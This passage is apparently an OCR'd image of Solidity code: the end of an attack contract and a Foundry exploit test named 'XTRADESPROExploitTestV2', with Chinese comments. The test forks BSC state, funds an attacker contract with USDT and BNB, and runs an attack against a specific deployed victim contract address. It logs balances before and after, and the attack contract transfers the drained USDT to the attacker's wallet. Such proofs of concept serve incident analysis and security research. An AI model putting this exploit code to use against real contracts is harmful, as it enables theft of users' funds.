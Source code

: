 ```sol
                console.log(unicode"提取资金失败，退出循环",i);
                break;
            }
        }
        
        // 将资金转移给攻击者EOA
        uint256 remainingBalance = IERC20(USDT_TOKEN).balanceOf(address(this));
        if (remainingBalance > 0) {
            IERC20(USDT_TOKEN).transfer(ATTACKER_EOA, remainingBalance);
        }
        
        console.log(unicode"攻击执行完成，资金已转移给攻击者EOA");
    }
}

contract XTRADESPROExploitTestV2 is Test {
   address public ATTACKER_EOA;
   // 合约地址 (使用正确的校验和格式)
    address private constant VICTIM_CONTRACT = 0xB9D195022da410970676DC31E4aBBc19063DD158;
    address private constant USDT_TOKEN = 0x55d398326f99059fF775485246999027B3197955;
    
    address private constant USDT_WHALE = 0x16b9a82891338f9bA80E2D6970FddA79D1eb0daE; // USDT持有者地址
    
    // 攻击合约实例
    AttackerV2 private attacker;
    
    function setUp() public {
        vm.createSelectFork("https://virtual.binance.eu.rpc.tenderly.co/d6bf3f88-f9d8-493e-b759-7e92f6587bc9", 64657388);
        // 部署攻击合约

        ATTACKER_EOA = makeAddr("ATTACKER_EOA");
        vm.prank(ATTACKER_EOA);
        attacker = new AttackerV2(ATTACKER_EOA);
        
        // 给攻击合约设置初始BNB用于支付Gas
        vm.deal(address(attacker), 10 ether);
        
        // 给攻击合约转入一些USDT用于支付费用
        vm.prank(USDT_WHALE);
        IERC20(USDT_TOKEN).transfer(address(attacker), 10000 * 1e18);
    }
    
    function testExploit() public {
        // 记录攻击前余额
        uint256 attackerBalanceBefore = IERC20(USDT_TOKEN).balanceOf(ATTACKER_EOA);
        uint256 contractBalanceBefore = IERC20(USDT_TOKEN).balanceOf(VICTIM_CONTRACT);
        
        console.log(unicode"攻击前USDT余额:");
        console.log(unicode"攻击者EOA:", attackerBalanceBefore / 1e18);
        console.log(unicode"受害者合约:", contractBalanceBefore / 1e18);
        
        // 执行攻击
        vm.prank(ATTACKER_EOA);
        attacker.attack();
        
        // 记录攻击后余额
        uint256 attackerBalanceAfter = IERC20(USDT_TOKEN).balanceOf(ATTACKER_EOA);
        uint256 contractBalanceAfter = IERC20(USDT_TOKEN).balanceOf(VICTIM_CONTRACT);
        
        console.log(unicode"攻击后USDT余额:");
        console.log(unicode"攻击者EOA:", attackerBalanceAfter / 1e18);
        console.log(unicode"受害者合约:", contractBalanceAfter / 1e18);
```